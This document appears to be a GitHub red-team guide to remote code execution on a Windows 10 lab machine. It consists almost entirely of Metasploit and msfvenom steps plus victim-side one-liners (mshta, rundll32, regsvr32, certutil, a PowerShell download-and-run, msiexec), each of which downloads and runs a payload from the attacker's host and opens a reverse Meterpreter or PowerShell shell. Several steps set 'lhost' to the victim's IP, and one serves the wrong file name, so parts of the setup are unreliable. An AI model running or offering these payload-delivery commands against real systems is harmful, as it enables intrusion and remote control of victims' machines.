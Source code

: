 # Red Team RCE
# Remote code execution guide for Red Teaming

Note:
* Attacking machine IP: 192.168.100.42 (Kali/Ubuntu VM)
* Victim machine IP: 192.168.100.14 (Windows 10 Pro VM)

## Malicious hta file:

1. use exploit/windows/misc/hta_server
2. set srvhost 192.168.100.42 //or what the IP of Kali is
3. set lhost 192.168.100.14 //or what the IP of Victim is 
4. set PAYLOAD windows/meterpreter/reverse_http
5. set lhost 192.168.100.14 //or what the IP of Victim is 
6. set LPORT 80 //or any port you want
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Now metasploit will give you the URL of the malicious hta file, it will be something like:
 - [*] Using URL: http://192.168.100.42/sldfkghlasdfk.hta
If you have chosen a different port (i.e. 1234), it will be like http://192.168.100.42:1234/sldfkghlasdfk.hta

Now, in the victim machine you will run:
 - mshta.exe http://192.168.100.42/sldfkghlasdfk.hta

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 

## Malicious dll file:

1. use exploit/windows/smb/smb_delivery
2. set srvhost 192.168.100.42 //or what the IP of Kali is
3. set PAYLOAD windows/meterpreter/reverse_http
4. set lhost 192.168.100.14 //or what the IP of Victim is 
5. set LPORT 80 //or any port you want
6. set SessionCommunicationTimeout 0
7. set ExitOnSession false
8. exploit –j

Now metasploit will give you the command to run, like:
 - msf exploit(windows/smb/smb_delivery) > rundll32.exe \\192.168.100.42\fiWi\test.dll,0
	
Now, in the victim machine you will run:
 - rundll32.exe \\192.168.100.42\fiWi\test.dll,0

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 


## Malicious sct file:

1. use exploit/multi/script/web_delivery
2. set target 3 //or “show targets” and choose adequately
3. set PAYLOAD windows/meterpreter/reverse_http
4. set lhost 192.168.100.14 //or what the IP of Victim is 
5. set srvhost 192.168.100.42 //or what the IP of Kali is
6. set LPORT 80 //or any port you want
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Metasploit will give you the command to run, like:
 - [*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.100.42:8080/asdfasdf.sct scrobj.dll

Now, in the victim machine run:
regsvr32 /s /n /u /i:http://192.168.100.42:8080/asdfasdf.sct scrobj.dll

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 


## Certutil:

1. msfvenom -p windows/meterpreter/reverse_http lhost=192.168.100.42 lport=4443 -f exe > malware.exe
2. Run apache to serve malware.exe or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/malware.exe
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 4443
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

On the victim machine run on a command prompt:
 - certutil.exe -urlcache -split -f http://192.168.100.42/malware.exe malware.exe & malware.exe


## Cscript:

1. msfvenom -p cmd/windows/reverse_powershell lhost=192.168.100.42 lport=4443 -f vbs > mal.vbs
2. Run apache to serve mal.vbs or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/mal.vbs
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 4443
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Nn the victim machine run:
 - powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.100.42/mal.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""


## Msiexec:

1. msfvenom -p cmd/windows/reverse_powershell lhost=192.168.100.42 lport=8080 -f msi > mal.msi
2. Run apache to serve mal.vbs or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/mal.msi
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 8080
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Now on the victim machine ruun:
 - msiexec /q /i http://192.168.100.42/mal.msi

This can also be replicated by generating the .exe from step 1 of certutil and manually packing it as msi using a freeware tool (i.e. msipacker).
